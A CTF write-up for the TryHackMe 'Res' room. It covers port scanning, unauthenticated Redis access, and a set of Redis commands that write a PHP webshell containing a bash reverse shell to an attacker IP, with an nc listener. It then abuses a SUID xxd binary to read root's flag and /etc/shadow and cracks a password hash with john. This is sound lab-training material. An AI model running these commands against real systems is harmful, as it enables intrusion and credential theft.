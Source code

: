 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-08
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

<!-- to be filled -->

## 2 Background Information

### 2.1 Redis

According to its [official documentation](https://redis.io/docs/about/):

>*Redis is an open source, in-memory data structure store used as a database, cache, message broker, and streaming engine.*

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see a Apache web server listening to port 80, although, this is does not seem like the right answer to the question.

The default command, that is without any port specification, scans the **most common 1,000 ports for each protocol** ([documentation](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).)), so we can try scanning for all ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **redis** server listening on port 6379 appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if the database requires authentication or not. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis info. 

So, let's try all that:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

On the same Hacktricks [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)** while in Redis:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as the server uses `6.0.7`.
2. Creating a **PHP Webshell**, but it has the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. By following the article's steps, and using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog:
 ```shell
 # define the path of Apache's default directory
 config set dir /var/www/html/
 # create a "subdirectory" to host our reverse shell 
 config set dbfilename webshell.php
 # our reverse shell code
 set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
 # save our configuration
 save
 ```
 2. Open a listener to our machine:
 ```shell
 nc -lnvp 12345
 ```
 3. Visit the newly-created server's subdirectory: http://<target-ip>/webshell.php
 
 A reverse shell should be on our listener:
 
 ![rce_setup](rce_setup.png)
 
Success 🎊! With our initial foothold established, let's search for `user.txt`:

![flag1](flag1.jpg)

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, but we saw it again while getting our first flag from `/home/vianka/user.txt`. When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching about files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins]((https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root flag 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's crack on 🏃!

![flag2](flag2.jpg)

That was easy enough. Let go for some hash cracking now 🔒!

### 3.4 Vertical Privilege Escalation with GTFOBins

Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

![xxd_shadow](xxd_shadow.png)

We need to also copy and paste `vianka`s info from the `passwrd` file into another file on our local machine:

![passwd](passwd.png)

Now, all we have to do, is to unshadow the files and let `john` do the work for us:

![john](john_vianka.jpg)

And that's us done 🍻!









